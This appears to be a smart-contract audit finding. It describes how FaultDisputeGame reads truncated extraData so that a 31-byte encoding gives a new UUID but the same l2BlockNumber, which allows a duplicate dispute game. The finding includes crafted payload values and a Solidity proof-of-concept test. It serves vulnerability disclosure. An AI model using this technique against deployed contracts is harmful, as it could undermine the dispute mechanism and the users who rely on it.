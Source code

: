 Knowing all this, it is possible to exploit the security mechanism that checks if the size is not greater than `0x66`, by setting a size lower than `0x66`.

Take `l2BlockNumber = 1_000_192`. Its uint256 representation as hexadecimal is:
```text
0x00000000000000000000000000000000000000000000000000000000000F4300
```

`_extraData` being of type `bytes memory`, it encodes this number by also including its size (32-byte size). This (size + content) will be used in `DisputeGameFactory.getGameUUID` to generate the unique UUID.

As the last byte of `l2BlockNumber` is `0x00` and reading the first byte of `CWIA` returns `0x00`, it is possible to encode it in `_extraData` with a size of 31 by deleting the last byte.

```text
0x00000000000000000000000000000000000000000000000000000000000F43
```

This encoded payload will:
-  give a different UUID when used with `DisputeGameFactory.getGameUUID`
-  be read as 32 bytes instead of 31 in `FaultDisputeGame.l2BlockNumber()`. As one additional empty byte is read, it will result in `1_000_192`.

The provided PoC shows such an exploit.

*Note: The behavior of reading CWIA bytes could be further exploited to read 2 bytes instead of 1.*

## Proof of Concept

The following unit test can be added to `test/dispute/FaultDisputeGame.t.sol`:

```solidity
    function test_bypassSecondGameDeployedWithSameArgs() public {
        // @POC: Create a game at block 1_000_192 with claimRoot 12345
        FaultDisputeGame game = FaultDisputeGame(payable(address(disputeGameFactory.create(GameType.wrap(uint8(0)), Claim.wrap(bytes32(uint256(12345))), abi.encode(0x00000000000000000000000000000000000000000000000000000000000F4300)))));

        // @POC: Create a second game at block 1_000_192 with same rootClaim SHOULD NOT be possible
        // @POC: Note that here, only 31 bytes are passed as `l2BlockNumber`.
        // @POC: The `l2BlockNumber()` function will read 32 bytes even if `_extraData` is 31-byte long.
        // @POC: As following bytes are `0x00`, 
        FaultDisputeGame secondGame = FaultDisputeGame(payable(address(disputeGameFactory.create(GameType.wrap(uint8(0)), Claim.wrap(bytes32(uint256(12345))), abi.encodePacked(bytes31(0x00000000000000000000000000000000000000000000000000000000000F43))))));

        assertEq(game.gameType().raw(), secondGame.gameType().raw(), "Different Root claim");   // @POC: Same GameType
        assertEq(game.rootClaim().raw(), secondGame.rootClaim().raw(), "Different Root claim"); // @POC: Same rootClaim
        assertEq(game.l2BlockNumber(), secondGame.l2BlockNumber(), "Different l2BlockNumber");  // @POC: Same l2BlockNumber
    }
```
